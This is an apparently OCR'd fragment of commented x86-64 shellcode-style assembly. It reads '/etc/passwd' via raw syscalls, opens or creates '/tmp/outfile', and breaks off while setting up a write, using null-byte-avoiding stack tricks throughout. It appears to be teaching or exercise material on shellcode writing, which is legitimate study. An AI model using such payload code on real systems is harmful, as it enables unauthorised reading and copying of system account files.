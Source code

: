     ; 1st argument of read: file descriptor of the file
    ; from which to read the bytes
    mov rdi, rbx

    ; 2nd argument of read: pointer to the buffer that will
    ; store the bytes read from the file
    mov rsi, rsp

    ; 3rd argument of read: number of bytes to read from the
    ; file "/etc/passwd"
    mov dx, 0xffff

    ; invoke syscall read
    syscall

    ; store the number of bytes read from "/etc/passwd" into R8
    mov r8, rax

    ; save the value of RSP for later use
    mov rax, rsp

    ; string terminator
    xor rbx, rbx
    push rbx

    ; push the string "/tmp/outfile" on the stack
    mov ebx, 0x656c6966
    push rbx
    movabs rbx, 0x74756f2f706d742f
    push rbx

    ; restore the previous value of RBX
    mov rbx, rax

    ; set RAX to 2 (syscall open)
    xor rax, rax
    mov al, 2

    ; 1st argument of open: pointer to the file to open
    lea rdi, [rsp]

    ; 2nd argument of open: flags: O_RDWR|O_CREAT|0x24
    xor rsi, rsi
    push 0x66
    pop si

    ; invoke syscall open
    syscall

    ; save the file descriptor of the opened file into RDI
    mov rdi, rax

    ; set RAX to 1 (syscall write)
    xor rax, rax
    mov al, 1

    ; 2nd argument of write: pointer to buffer containing the
    ; bytes to write
    lea rsi, [rbx]
